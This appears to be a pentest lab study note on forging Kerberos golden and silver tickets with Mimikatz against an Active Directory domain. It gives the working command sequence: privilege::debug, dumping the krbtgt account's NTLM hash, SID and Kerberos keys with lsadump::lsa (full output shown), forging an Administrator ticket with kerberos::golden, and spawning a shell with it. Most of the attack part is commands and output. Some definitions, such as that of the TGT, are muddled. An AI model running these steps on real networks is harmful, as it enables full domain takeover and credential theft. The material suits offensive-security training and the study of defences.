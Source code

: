 # Golden/Silver Tickets w/ Mimikatz 

- Use Mimikatz to create a silver ticket

A silver ticket can sometimes be better in engagement rather than golden ticket because it is a little more discreet.
- Silver ticket is limited to the service that is targeted
- Golden ticket has access to any Kerberos service

## Scenario
- Want to access domain's SQL server
- Current compromised user does not have access to that server
- Find accessible service account by Kerberoasting that service
- Dump the service hash of that account + impersonate TGT to request a service ticket for the SQL service
- Access to domain's SQL server

## KRBTGT Overview
### KRBTGT
- `Service account` for the KDC
- KDC is the `Key Distribution Centre` that issues all of the tickets to the clients
- If you impersonate this account and create a golden ticket, you give yourself the ability to create a service ticket for anything

### TGT
- Is a ticket to a service account issued by the KDC
- Can only access that service the TGT is from, such as SQL service ticket

### Golden/Silver Ticket Attack Overview
- Golden ticket works by dumping the ticket-granting-ticket of any user on domain
- Golden ticket; dumps the krbtgt ticket
- Silver ticket; dump any service or domain admin ticket

This will provide you with the service/domain admin account SID that is unique for each user account, as well as the NTLM hash. Use these details inisde of a Mimikatz goldent ticket to create a TGT that impersonates the given service account information.


<pre>privilege::debug</pre> 

- Dump the hash + SID needed to create a golden ticket

<pre>mimikatz# lsadump::lsa /inject /name:krbtgt

Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 72cd714611b64cd4d5550cd2759db3f6
    LM   :
  Hash NTLM: 72cd714611b64cd4d5550cd2759db3f6
    ntlm- 0: 72cd714611b64cd4d5550cd2759db3f6
    lm  - 0: aec7e106ddd23b3928f7b530f60df4b6
 
 * WDigest
    01  d2e9aa3caa4509c3f11521c70539e4ad
    02  c9a868fc195308b03d72daa4a5a4ee47
    03  171e066e448391c934d0681986f09ff4
    04  d2e9aa3caa4509c3f11521c70539e4ad 
    05  c9a868fc195308b03d72daa4a5a4ee47
    06  41903264777c4392345816b7ecbf0885
    07  d2e9aa3caa4509c3f11521c70539e4ad
    08  9a01474aa116953e6db452bb5cd7dc49
    09  a8e9a6a41c9a6bf658094206b51a4ead
    10  8720ff9de506f647ad30f6967b8fe61e
    11  841061e45fdc428e3f10f69ec46a9c6d
    12  a8e9a6a41c9a6bf658094206b51a4ead
    13  89d0db1c4f5d63ef4bacca5369f79a55
    14  841061e45fdc428e3f10f69ec46a9c6d 
    15  a02ffdef87fc2a3969554c3f5465042a
    16  4ce3ef8eb619a101919eee6cc0f22060
    17  a7c3387ac2f0d6c6a37ee34aecf8e47e
    18  085f371533fc3860fdbf0c44148ae730
    19  265525114c2c3581340ddb00e018683b
    20  f5708f35889eee51a5fa0fb4ef337a9b
    21  bffaf3c4eba18fd4c845965b64fca8e2
    22  bffaf3c4eba18fd4c845965b64fca8e2
    23  3c10f0ae74f162c4b81bf2a463a344aa
    24  96141c5119871bfb2a29c7ea7f0facef 
    25  f9e06fa832311bd00a07323980819074
    26  99d1dd6629056af22d1aea639398825b
    27  919f61b2c84eb1ff8d49ddc7871ab9e0
    28  d5c266414ac9496e0e66ddcac2cbcc3b
    29  aae5e850f950ef83a371abda478e05db

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 79bf07137a8a6b8f

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt 
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : dfb518984a8965ca7504d6d5fb1cbab56d444c58ddff6c193b64fe6b6acf1033
      aes128_hmac       (4096) : 88cc87377b02a885b84fe7050f336d9b
      des_cbc_md5       (4096) : 79bf07137a8a6b8f

 * NTLM-Strong-NTOWF
    Random Value : 4b9102d709aada4d56a27b6c3cd14223
    </pre>

- To create a silver ticket, change the /name: to dump hash of either domain admin or service account

## Create Golden/Silver ticket
<pre>Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id: </pre>

- Service NTLM hash into krbtgt : 72cd714611b64cd4d5550cd2759db3f6
- SID of service into SID : S-1-5-21-432953485-3795405108-1502158860
- ID 1103

<pre>mimikatz # Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-15021588
60  /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:1103 
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-432953485-3795405108-1502158860
User Id   : 1103
Groups Id : *513 512 520 518 519
ServiceKey: 72cd714611b64cd4d5550cd2759db3f6 - rc4_hmac_nt
Lifetime  : 9/12/2023 1:41:37 PM ; 9/9/2033 1:41:37 PM ; 9/9/2033 1:41:37 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file ! </pre>

## Use Golden/Silver Ticket to access other machines
- Open elevated cmd prompt with the given ticket in Mimikatz
<pre>misc::cmd </pre>

- Access any machine on domain